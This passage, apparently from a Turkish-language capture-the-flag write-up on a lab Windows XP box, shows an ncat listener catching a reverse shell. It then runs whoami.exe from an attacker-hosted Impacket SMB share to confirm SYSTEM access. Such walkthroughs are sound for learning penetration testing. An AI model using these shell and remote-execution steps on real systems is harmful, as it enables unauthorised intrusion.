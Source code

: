 And I get a shell:

```
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1029.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Beyond Root - Whoami

XP'de whoami binary'si ya da komutu yok! Yani bu iki açıkla da sistemde olduğumdan şüphelenirken, bunu nasıl bilebilirdim ki?

```
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

Çoğu kullanıcı için echo ve %username% ortam değişkenini kullanabilirim:

```
C:\WINDOWS\system32>echo %username%
%username%
```

Bu environment değişkeninin genişlememesi sistemde olduğuma dair iyi bir işaret. Daha ileri gitmek istersem, zaten varsayılan olarak kali'de bulunan whoami.exe'yi kullanabilirim:

```
root@kali# locate whoami.exe
/usr/share/windows-binaries/whoami.exe
```

Bu klasörü komutla SMB üzerinden paylaşacağım:

```
root@kali# smbserver.py a /usr/share/windows-binaries/
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Şimdi çalıştıracağım ve sistemde olduğumu göreceğim:

```
C:\WINDOWS\system32>\\10.10.14.14\a\whoami.exe NT AUTHORITY\SYSTEM
```

Elbette kontrol edebileceğim başka yollar da var, belirli yerlere yazma erişimine sahip olmak gibi (örneğin system32). Whoami.exe dosyasını almak kesinlikle en kolay ve en kesin yöntemlerden biri.